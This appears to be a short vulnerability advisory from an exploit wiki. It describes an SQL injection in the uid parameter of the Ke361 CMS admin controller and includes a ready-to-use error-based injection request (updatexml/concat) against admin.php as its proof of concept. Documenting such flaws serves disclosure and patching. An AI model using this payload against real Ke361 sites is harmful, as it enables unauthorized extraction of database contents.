 # Ke361 AuthManagerController.class.php Background SQL injection vulnerability

## Vulnerability Description

Ke361 AuthManagerController.class.php uid parameter has SQL injection vulnerability, through which database sensitive information can be obtained

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ke361</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://gitee.com/jcove/ke361</span>

## Vulnerability reappears

CMS Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232823896.png)

The vulnerable file is `Application/Admin/Controller/AuthManagerController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634142335709-0384ef5c-e05b-41af-b19d-a5b7864faaf3.png)

Verify POC

```php
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634142341220-a0120691-16d8-41e2-be07-abcaa561347f.png)